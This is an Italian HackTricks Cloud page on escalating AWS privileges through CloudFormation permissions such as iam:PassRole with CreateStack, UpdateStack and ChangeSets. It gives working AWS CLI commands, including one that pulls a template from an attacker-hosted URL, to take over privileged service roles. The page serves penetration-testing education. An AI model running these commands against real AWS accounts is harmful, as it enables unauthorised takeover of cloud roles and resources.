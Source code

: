 # AWS - Privilegi di Escalation tramite Cloudformation

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

## cloudformation

Per ulteriori informazioni su cloudformation, controlla:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Un attaccante con queste autorizzazioni **può ottenere privilegi di escalation** creando uno **stack di CloudFormation** con un modello personalizzato, ospitato sul proprio server, per **eseguire azioni con i permessi di un ruolo specificato:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Nella seguente pagina hai un **esempio di sfruttamento** con il permesso aggiuntivo **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impatto potenziale:** Privesc al ruolo di servizio di cloudformation specificato.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In questo caso puoi **abusare di uno stack di cloudformation esistente** per aggiornarlo ed elevare i privilegi come nello scenario precedente:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
La permissione `cloudformation:SetStackPolicy` può essere utilizzata per **darti la permissione `UpdateStack`** su uno stack e eseguire l'attacco.

**Impatto potenziale:** Privesc al ruolo di servizio di cloudformation specificato.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Se hai questa permissione ma **nessuna `iam:PassRole`**, puoi comunque **aggiornare gli stack** utilizzati e abusare dei **ruoli IAM a cui sono già collegati**. Controlla la sezione precedente per un esempio di exploit (solo non indicare alcun ruolo nell'aggiornamento).

La permissione `cloudformation:SetStackPolicy` può essere utilizzata per **darti la permissione `UpdateStack`** su uno stack e eseguire l'attacco.

**Impatto potenziale:** Privesc al ruolo di servizio di cloudformation già collegato.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un attaccante con le permissioni per **passare un ruolo e creare ed eseguire un ChangeSet** può **creare/aggiornare uno stack di cloudformation e abusare dei ruoli di servizio di cloudformation** proprio come con CreateStack o UpdateStack.

L'exploit seguente è una **variazione di quello**[ **CreateStack**](./#iam-passrole-cloudformation-createstack) utilizzando le **permissioni ChangeSet** per creare uno stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Il permesso `cloudformation:SetStackPolicy` può essere utilizzato per **conferire a te stesso i permessi `ChangeSet`** su uno stack e eseguire l'attacco.

**Impatto potenziale:** Privesc ai ruoli di servizio di CloudFormation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Questo è simile al metodo precedente senza passare **ruoli IAM**, quindi puoi semplicemente **abusare di quelli già collegati**, basta modificare il parametro:
```
--change-set-type UPDATE
```
**Potenziale impatto:** Privesc al ruolo del servizio CloudFormation già collegato.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un attaccante potrebbe sfruttare queste autorizzazioni per creare/aggiornare StackSets per abusare di ruoli di cloudformation arbitrari.

**Potenziale impatto:** Privesc ai ruoli del servizio CloudFormation.

### `cloudformation:UpdateStackSet`

Un attaccante potrebbe sfruttare questa autorizzazione senza l'autorizzazione passRole per aggiornare StackSets per abusare dei ruoli di cloudformation collegati.

**Potenziale impatto:** Privesc ai ruoli di cloudformation collegati.

## Riferimenti

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository github di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

